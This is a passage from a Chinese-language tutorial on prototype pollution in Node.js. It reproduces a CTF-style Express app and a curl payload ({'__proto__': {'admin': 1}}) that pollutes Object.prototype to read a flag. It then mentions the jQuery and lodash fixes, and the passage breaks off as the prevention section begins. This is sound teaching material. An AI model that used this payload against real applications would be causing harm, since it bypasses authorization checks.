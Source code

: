 ```js
    var copybody = clone(body)
    if (copybody.name) {
        res.cookie('name', copybody.name).json({
            "done": "cookie set"
        });
    } else {
        res.json({
            "error": "cookie not set"
        })
    }
});
app.get('/getFlag', (req, res) => {
    var аdmin = JSON.parse(JSON.stringify(req.cookies))
    if (admin.аdmin == 1) {
        res.send("hackim19{}");
    } else {
        res.send("You are not authorized");
    }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

这段代码的漏洞就在于 merge 函数上，我们可以这样攻击：

```bash
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'; 

curl -vv 'http://0.0.0.0:4000/getFlag'
```

首先请求 `/signup` 接口，在 NodeJS 服务中，我们调用了有漏洞的 `merge` 方法，并通过 `__proto__` 为 `Object.prototype`（因为 `{}.__proto__ === Object.prototype`） 添加上一个新的属性 `admin`，且值为 1。

再次请求 `getFlag` 接口，条件语句 `admin.аdmin == 1` 为 `true`，服务被攻击。

攻击案例出自：[Prototype pollution attacks in NodeJS applications](https://link.zhihu.com/?target=https%3A//links.jianshu.com/go%3Fto%3Dhttps%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3DLUsiFV3dsK8)

这样的漏洞在 jQuery `$.extend` 中也经常见到：

- [jQuery 修复原型污染 PR](https://link.zhihu.com/?target=https%3A//links.jianshu.com/go%3Fto%3Dhttps%3A%2F%2Fgithub.com%2Fjquery%2Fjquery%2Fpull%2F4333)
- [jQuery prototype pollution vulnerability](https://link.zhihu.com/?target=https%3A//links.jianshu.com/go%3Fto%3Dhttps%3A%2F%2Fsnyk.io%2Fblog%2Fafter-three-years-of-silence-a-new-jquery-prototype-pollution-vulnerability-emerges-once-again%2F)

对于 jQuery：如果担心安全问题，建议升级至最新版本 jQuery 3.4.0，如果还在使用 jQuery 的 1.x 和 2.x 版本，那么你的应用程序和网站仍有可能遭受攻击。

## 防范原型污染

了解了漏洞潜在问题以及攻击手段，那么如何防范呢？

在 lodash “连夜”发版的修复中：
